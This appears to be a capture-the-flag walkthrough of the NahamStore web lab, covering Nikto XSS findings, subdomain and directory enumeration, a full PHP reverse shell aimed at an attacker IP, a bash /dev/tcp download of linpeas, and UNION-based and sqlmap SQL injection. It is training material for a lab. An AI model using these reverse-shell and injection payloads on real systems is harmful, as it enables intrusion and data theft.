+ /theme1/selector?button=status,monitor,session\"><script>alert('Vulnerable')</script>&button_url=/system/status/status,/system/status/moniter,/system/status/session: Fortigate firewall 2.50 and prior contains several XSS vulnerabilities in various administrative pages. See: OSVDB-3296
+ /examplesWebApp/InteractiveQuery.jsp?person=<script>alert('Vulnerable')</script>: BEA WebLogic 8.1 and below are vulnerable to Cross Site Scripting (XSS) in example code. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-0624
+ /sgdynamo.exe?HTNAME=<script>alert('Vulnerable')</script>: Ecometry's SGDynamo is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0375
+ /docs/<script>alert('Vulnerable');</script>: Nokia Electronic Documentation is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-0801
+ /aktivate/cgi-bin/catgy.cgi?key=0&cartname=axa200135022551089&desc=<script>alert('Vulnerable')</script>: Aktivate Shopping Cart 1.03 and lower are vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2001-1212
+ /debug/dbg?host==<script>alert('Vulnerable');</script>: The TCLHttpd 3.4.2 server is vulnerable to Cross Site Scripting (XSS) in debug scripts. See: OSVDB-3762
+ /debug/echo?name=<script>alert('Vulnerable');</script>: The TCLHttpd 3.4.2 server is vulnerable to Cross Site Scripting (XSS) in debug scripts. See: OSVDB-3762
+ /debug/errorInfo?title===<script>alert('Vulnerable');</script>: The TCLHttpd 3.4.2 server is vulnerable to Cross Site Scripting (XSS) in debug scripts. See: OSVDB-3762
+ /debug/showproc?proc===<script>alert('Vulnerable');</script>: The TCLHttpd 3.4.2 server is vulnerable to Cross Site Scripting (XSS) in debug scripts. See: OSVDB-3762
+ /wwwping/index.stm?wwwsite=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/create.stm?path=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/edit.stm?path=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/ftp.stm?path=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/htaccess.stm?path=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/iecreate.stm?path=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/ieedit.stm?path=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/info.stm?path=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/mkdir.stm?path=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/rename.stm?path=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/search.stm?path=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/sendmail.stm?path=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/template.stm?path=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/update.stm?path=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/vccheckin.stm?path=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/vccreate.stm?path=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/vchist.stm?path=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/edit.stm?name=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/ieedit.stm?name=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/info.stm?name=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/rename.stm?name=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/sendmail.stm?name=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/update.stm?name=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/vccheckin.stm?name=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/vccreate.stm?name=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/vchist.stm?name=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /syshelp/stmex.stm?foo=123&bar=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /syshelp/stmex.stm?foo=<script>alert(document.cookie)</script>&bar=456: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /syshelp/cscript/showfunc.stm?func=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /syshelp/cscript/showfncs.stm?pkg=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /syshelp/cscript/showfnc.stm?pkg=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /netutils/ipdata.stm?ipaddr=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /netutils/findata.stm?host=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /netutils/findata.stm?user=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /sysuser/docmgr/search.stm?query=<script>alert(document.cookie)</script>: Sambar Server default script is vulnerable to Cross Site Scripting (XSS). See: https://seclists.org/fulldisclosure/2003/Mar/265
+ /webtools/bonsai/cvsqueryform.cgi?cvsroot=/cvsroot&module=<script>alert('Vulnerable')</script>&branch=HEAD: Bonsai is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-0154
+ /webtools/bonsai/cvsquery.cgi?branch=<script>alert('Vulnerable')</script>&file=<script>alert(document.domain)</script>&date=<script>alert(document.domain)</script>: Bonsai is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-0154
+ /webtools/bonsai/cvsquery.cgi?module=<script>alert('Vulnerable')</script>&branch=&dir=&file=&who=<script>alert(document.domain)</script>&sortby=Date&hours=2&date=week: Bonsai is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-0154
+ /webtools/bonsai/cvslog.cgi?file=*&rev=&root=<script>alert('Vulnerable')</script>: Bonsai is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-0153
+ /webtools/bonsai/cvslog.cgi?file=<script>alert('Vulnerable')</script>: Bonsai is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-0153
+ /webtools/bonsai/cvsblame.cgi?file=<script>alert('Vulnerable')</script>: Bonsai is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-0154
+ /webtools/bonsai/showcheckins.cgi?person=<script>alert('Vulnerable')</script>: Bonsai is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-0154
+ /wfwDb4DFQyC0tBsS3oiolY95XTnW3up230Zs8Om9ExnNACSw0b1VmOzJVc33qP56QOFUmeFWIImSPIScKmSTXMRHRlg0RUfhqAidWwDUsj9hznQ4T0xK779p3PjJ0h6aGwfvCafoeXXjtEAJYSoIT1l5UjLEZ3W79FRAsa2AefBrFOvBP4jHu9vvNW7xQqmX9H10QKGFTTprRAx2b4UzSCJMElG7WGy<font%20size=50>DEFACED<!--//--: <strong>MyWebServer 1.0.2</strong> is vulnerable to HTML injection. Upgrade to a later version. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1453
+ /PsA2MmTHirMUlLryT15numc1xZMADaJyCQsInIhkOXnuTBcN7ZIIFG5OiP5O65diDdsFsE18JCaNHJMzBLUt7dPrhHHpBZSHUzJUIYW54qy7OswZZik3UBTgiMrVeNOHFtmABrxiU2zt6Yj2Y8OljonJb7sB6UOZruz88St6OecM3qkKnBv2vii8dRVcWWC4l3Hnw6SWmowFkcRyJZUfbqZe5IMpOff<font%20size=50><script>alert(11)</script><!--//--: MyWebServer 1.0.2 is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1453
+ /pls/dadname/htp.print?cbuf=<script>alert('Vulnerable')</script>: Oracle 9iAS is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-2029
+ /pls/help/<script>alert('Vulnerable')</script>: Oracle 9iAS is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-2029
+ /shopadmin.asp?Password=abc&UserName=\"><script>alert(foo)</script>: <strong>VP-ASP Shopping Cart 5.50</strong> shopadmin.asp UserName Variable XSS. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2005-3685
+ /jsp-examples/jsp2/jspx/textRotate.jspx?name=<script>alert(111)</script>: The tomcat demo files are installed, which are vulnerable to an XSS attack. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2005-4838
+ /jsp-examples/jsp2/el/implicit-objects.jsp?foo=<script>alert(112)</script>: The tomcat demo files are installed, which are vulnerable to an XSS attack. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2005-4838
+ /jsp-examples/jsp2/el/functions.jsp?foo=<script>alert(113)</script>: The Tomcat demo files are installed, which are vulnerable to an XSS attack. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2005-4838
+ /scripts/message/message_dialog.tml?how_many_back=\"><script>alert(1)</script>: Lyris ListManager Cross-Site Scripting. See: https://www.procheckup.com/media/zjkb3pmc/new-listmanager-paper-v2.pdf
+ 7962 requests: 0 error(s) and 146 item(s) reported on remote host
+ End Time:           2023-05-29 15:52:55 (GMT2) (373 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


---


##### SUB DOMAIN ENUMERATION level I / WITH WFUZZ


```
<strong>wfuzz -c --hc 400,404,403 -u http://nahamstore.thm/ -H "Host: FUZZ.nahamstore.thm" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hw 65</strong>

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://nahamstore.thm/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000001:   301        7 L      13 W       194 Ch      "www"
000000037:   301        7 L      13 W       194 Ch      "<strong>shop</strong>"
000000254:   200        41 L     92 W       2025 Ch     "<strong>marketing</strong>"
000000960:   200        0 L      1 W        67 Ch       "<strong>stock</strong>"

Total time: 468.9753
Processed Requests: 114441
Filtered Requests: 114437
Requests/sec.: 244.0234
```


---


##### SUB DOMAIN ENUMERATION level II / WITH WFUZZ


```
<strong>wfuzz -c --hc 400,404,403 -u http://marketing.nahamstore.thm/ -H "Host: FUZZ.marketing.nahamstore.thm" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hw 65</strong>
```


```
<strong>wfuzz -c --hc 400,404,403 -u http://stock.nahamstore.thm/ -H "Host: FUZZ.stock.nahamstore.thm" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hw 65</strong>
```


```
<strong>wfuzz -c --hc 400,404,403 -u http://shop.nahamstore.thm/ -H "Host: FUZZ.shop.nahamstore.thm" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hw 65</strong>
```


---


##### WEBSITE ENUMERATION `http://nahamstore.thm/`WITH GOBUSTER


```
<strong>gobuster dir -u http://nahamstore.thm/ -w /usr/share/wordlists/dirb/big.txt -x php,txt,html,bak,js</strong>

===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://nahamstore.thm/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              bak,js,php,txt,html
[+] Timeout:                 10s
===============================================================
2023/05/29 15:22:38 Starting gobuster in directory enumeration mode
===============================================================
<strong>/basket               (Status: 200) [Size: 2465]
/css                  (Status: 301) [Size: 178] [--> http://127.0.0.1/css/]
/js                   (Status: 301) [Size: 178] [--> http://127.0.0.1/js/]
/login                (Status: 200) [Size: 3099]
/logout               (Status: 302) [Size: 0] [--> /]
/register             (Status: 200) [Size: 3138]
/returns              (Status: 200) [Size: 3628]
/robots.txt           (Status: 200) [Size: 13]
/robots.txt           (Status: 200) [Size: 13]
/search               (Status: 200) [Size: 3351]
/staff                (Status: 200) [Size: 2287]
/uploads              (Status: 301) [Size: 178] [--> http://127.0.0.1/uploads/]</strong>
Progress: 122756 / 122820 (99.95%)
===============================================================
2023/05/29 15:32:05 Finished
===============================================================
```


---


##### website enumeration http://marketing.nahamstore.thm/ with DIRB


```
<strong>dirb http://marketing.nahamstore.thm/ /usr/share/wordlists/dirb/big.txt -N 302</strong>

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon May 29 15:26:56 2023
URL_BASE: http://marketing.nahamstore.thm/
WORDLIST_FILES: /usr/share/wordlists/dirb/big.txt
OPTION: Ignoring NOT_FOUND code -> 302

-----------------

GENERATED WORDS: 20458

---- Scanning URL: http://marketing.nahamstore.thm/ ----

-----------------
END_TIME: Mon May 29 15:41:13 2023
DOWNLOADED: 20458 - <strong>FOUND: 0</strong>
```


---


##### website enumeration http://stock.nahamstore.thm/ with DIRB


```
<strong>dirb http://stock.nahamstore.thm/ /usr/share/wordlists/dirb/big.txt -N 302</strong>

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon May 29 15:28:24 2023
URL_BASE: http://stock.nahamstore.thm/
WORDLIST_FILES: /usr/share/wordlists/dirb/big.txt
OPTION: Ignoring NOT_FOUND code -> 302

-----------------

GENERATED WORDS: 20458

---- Scanning URL: http://stock.nahamstore.thm/ ----
+ <strong>http://stock.nahamstore.thm/product</strong> (CODE:200|SIZE:148)

-----------------
END_TIME: Mon May 29 15:42:40 2023
DOWNLOADED: 20458 - FOUND: 1
```


---


##### website enumeration http://nahamstore.thm:8000/ with GOBUSTER


```
<strong>gobuster dir -u http://nahamstore.thm:8000/ -w /usr/share/wordlists/dirb/big.txt -x php,txt,html,bak,js</strong>

===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://nahamstore.thm:8000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,html,bak,js,php
[+] Timeout:                 10s
===============================================================
2023/05/29 15:44:24 Starting gobuster in directory enumeration mode
===============================================================
<strong>/admin                (Status: 302) [Size: 0] [--> /admin/login]
/robots.txt           (Status: 200) [Size: 30]
/robots.txt           (Status: 200) [Size: 30]</strong>
Progress: 122795 / 122820 (99.98%)
===============================================================
2023/05/29 15:52:49 Finished
===============================================================
```


---


##### URL / http://nahamstore.thm:8000/


```
< Blank Page >
```


---


##### URL / http://nahamstore.thm/staff





---


##### URL / http://nahamstore.thm/returns





---


##### url / http://nahamstore.thm:8000/admin/login





---


#### Exploit


##### PHP REVERSE SHELL / REMOTE CODE EXECUTION


Get your shell here: https://www.revshells.com/


```
# Take the PHP Pentest Monkey Shell and Edit IP / PORT
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.11.8.178';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>

# Fire up NETCAT on attack machine
<strong>sudo nc -lvnp 4444</strong>
listening on [any] 4444 ...

# Inject PHP code here
http://nahamstore.thm:8000/admin/8d1952ba2b3c6dcd76236f090ab8642c

# Credentials are <strong>admin:admin</strong>

< Press Update >
< Open the site >

# We got a connection...
<strong>connect to [10.11.8.178] from (UNKNOWN) [10.10.64.70] 55394</strong>
Linux af11c847d4c7 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 14:37:16 up  1:33,  0 users,  load average: 0.05, 0.03, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (38): Inappropriate ioctl for device
bash: no job control in this shell
www-data@af11c847d4c7:/$
```


---


#### Discovery


##### Let's look around on the Server with LINPEAS


```
# Fire up your Python SimpleHTTPServer
<strong>sudo python3 -m http.server 8000</strong>

# On Target Machine navigate to /tmp
<strong>cd /tmp</strong>

# Let's make a stable shell with Python
<strong>python3 -c 'import pty; pty.spawn("/bin/bash")'</strong>

# Download linPeas.sh
<strong>wget http://10.11.8.178:8000/linpeas.sh</strong>

# Damn... no wget or curl available - but no problem a little google and ...
<a href="https://unix.stackexchange.com/questions/83926/how-to-download-a-file-using-just-bash-and-nothing-else-no-curl-wget-perl-et">https://unix.stackexchange.com/questions/83926/how-to-download-a-file-using-just-bash-and-nothing-else-no-curl-wget-perl-et</a>

# Copy&Past this code into the terminal
<strong>function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}</strong>

# Now execute the command like this
<strong>__curl http://10.11.8.178:8000/linpeas.sh > linpeas.sh</strong>

# Give linpeas.sh permission to be executed
<strong>chmod +x linpeas.sh</strong>

# Execute
<strong>./linpeas.sh</strong>
```


---


#### Privilege Escalation


##### linPEAS findings


```
<strong>╔══════════╣ Executing Linux Exploit Suggester 2</strong>
╚ https://github.com/jondonas/linux-exploit-suggester-2

╔══════════╣ Protections
═╣ AppArmor enabled? .............. AppArmor Not Found
═╣ AppArmor profile? .............. docker-default (enforce)
═╣ is linuxONE? ................... s390x Not Found
═╣ grsecurity present? ............ grsecurity Not Found
═╣ PaX bins present? .............. PaX Not Found
═╣ Execshield enabled? ............ Execshield Not Found
═╣ SELinux enabled? ............... sestatus Not Found
═╣ Seccomp enabled? ............... enabled
═╣ User namespace? ................ enabled
═╣ Cgroup2 enabled? ............... enabled
═╣ Is ASLR enabled? ............... Yes
═╣ Printer? ....................... No
═╣ Is this a virtual machine? ..... <strong>Yes (docker)</strong>

╔══════════╣ Possible Entrypoints
<strong>-rwxr-xr-x 1 root     root       88 Feb 17  2021 /startup.sh </strong>
-rwxrwxrwx 1 www-data www-data 812K May 29 14:58 /tmp/linpeas.sh

╔══════════╣ Superusers
root:x:0:0:root:/root:/bin/bash

<strong>╔══════════╣ Users with console
root:x:0:0:root:/root:/bin/bash</strong>

<strong>╔══════════╣ Useful software
/usr/bin/base64
/usr/bin/perl
/usr/bin/php
/usr/bin/python3</strong>

══╣ PHP exec extensions
lrwxrwxrwx 1 root root 34 Feb 17  2021 /etc/nginx/sites-enabled/default -> /etc/nginx/sites-available/default
server {
        <strong>listen 80 default_server;
        root /var/www/html/marketing/public;</strong>
        index index.php;
        server_name _;
        location / {
                try_files $uri $uri/ /index.php?$query_string;
        }
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/var/run/php/php7.4-fpm.sock;
        }
}
server {
        <strong>listen 8000 default_server;
        root /var/www/html/marketingport/public;</strong>
        index index.php;
        server_name _;
        location / {
                try_files $uri $uri/ /index.php?$query_string;
        }
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/var/run/php/php7.4-fpm.sock;
        }
}

<strong>╔══════════╣ Unexpected in root</strong>
/.dockerenv
/startup.sh
<strong>/flag.txt</strong>

╔══════════╣ Files inside others home (limit 20)
/var/www/html/index.nginx-debian.html
/var/www/html/data/09c2afcff60bb4dd3af7c5c5d74a482f.php
/var/www/html/data/campaigns.json
/var/www/html/data/8d1952ba2b3c6dcd76236f090ab8642c.php
/var/www/html/marketing/Autoload.php
/var/www/html/marketing/controllers/MarketingManager.php
/var/www/html/marketing/routes/url.php
/var/www/html/marketing/public/index.php
<strong>/var/www/html/marketing/Route.php</strong>
/var/www/html/marketing/Output.php
/var/www/html/marketing/view/footer.php
/var/www/html/marketing/view/header.php
/var/www/html/marketing/view/page.php
<strong>/var/www/html/marketing/view/dashboard.php</strong>
/var/www/html/marketing/view/404.php
/var/www/html/marketing/View.php
/var/www/html/marketingport/Autoload.php
/var/www/html/marketingport/controllers/MarketingManager.php
/var/www/html/marketingport/controllers/Website.php
/var/www/html/marketingport/routes/url.php
```


---


Let's check some other interesting files.


```
# Get the RCE 1 Flag
<strong>cd /
cat flag.txt</strong>
```


---


#### Weaponization


##### LET's HUNT FOR SQLi


```
1. Go to the main page and click on a product.
http://nahamstore.thm/product?<strong>id=2</strong>&name=Sticker+Pack

2. So let's try a simple <strong>SQLi PoC - Proof of Concept</strong>
```


---


###### PoC - SQLi Proof of Concept


```
# Change this
http://nahamstore.thm/product?id=2&name=Sticker+Pack

# To this
http://nahamstore.thm/product?id=<strong>2'</strong>

# We get an SQL error - <strong><em>Site is vulnerable to SQLi!</em></strong>
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 1' at line 1
```


---


##### SQLi Payloads - Enumeration (MYSQL)


```
# Send the previous request to BurpSuite - Repeater

# Get the database version
GET /product?id=2<strong>+UNION+Select+<strong>group_concat(</strong>@@version)</strong> HTTP/1.1
= The used SELECT statements have a different number of columns

# We need more columns for our search
GET /product?id=2<strong>+UNION+Select+NULL,+<strong>group_concat(</strong>@@version)</strong> HTTP/1.1
= The used SELECT statements have a different number of columns

GET /product?id=2<strong>+UNION+Select+NULL,NULL,+<strong>group_concat(</strong>@@version)</strong> HTTP/1.1
= Same Error

GET /product?id=2<strong>+UNION+Select+NULL,NULL,NULL,+<strong>group_concat(</strong>@@version)</strong> HTTP/1.1
= Same Error

GET /product?id=2<strong>+UNION+Select+NULL,NULL,NULL,NULL,+group_concat(@@version)</strong> HTTP/1.1
= Successful ! So the Select uses <strong>5 columns</strong>

# Since we don't see the value let's put a invalid id, so no product is shown.

GET /product?id=<strong>-1+UNION+Select+NULL,NULL,NULL,NULL,+group_concat(@@version)</strong> HTTP/1.1

# We still don't see but don't get an error, let's move the columns until we see it.

GET /product?id=<strong>-1+UNION+Select+NULL,group_concat(@@version),NULL,NULL,NULL</strong> HTTP/1.1
= Successful (<strong>8.0.23-0ubuntu0.20.04.1</strong>)
```


---


#### Delivery


##### SQLi Payloads - ATTACK (MySQL)


```
# Discover Database name
GET /product?id=<strong>-1+UNION+Select+NULL,group_concat(database()),NULL,NULL,NULL</strong> HTTP/1.1
= <strong>nahamstore</strong>

# Discover all Tables inside Database
GET /product?id=<strong>-1+UNION+Select+NULL,group_concat(table_name),NULL,NULL,NULL+FROM+information_schema.tables</strong> HTTP/1.1

# Discover specific Table inside Database
GET /product?id=<strong>-1+UNION+Select+NULL,group_concat(table_name),NULL,NULL,NULL+FROM+information_schema.tables+WHERE+table_name+=+'sqli_one'</strong> HTTP/1.1
= Successful

# Get Content from Column inside a table
GET /product?id=<strong>-1+UNION+Select+NULL,group_concat(flag),NULL,NULL,NULL+FROM+sqli_one</strong> HTTP/1.1
= <strong>{d890234e20be48ff96a2f9caab0de55c}</strong>
```


---


##### SQLMAP


```
1. Save the GET REQUEST inside a text file: <strong>request.txt</strong>
2. Run this command
<strong>sqlmap -r request.txt --risk=3 --level=5 --dbs  --dump</strong>

Database: nahamstore
Table: sqli_one
[1 entry]
+----+------------------------------------+
| id | flag                               |
+----+------------------------------------+
| 1  | {d890234e20be48ff96a2f9caab0de55c} |
+----+------------------------------------+
```


---


#### SQLinjection (Blind)


```
# On the returns page - http://nahamstore.thm/returns
# Fill out the return and capture the POST REQUEST
```





```
# Use SQLmap to find the tables
<strong>sqlmap -r post-request.txt --risk=3 --level=5 --dbs --dump</strong>
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7.2#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
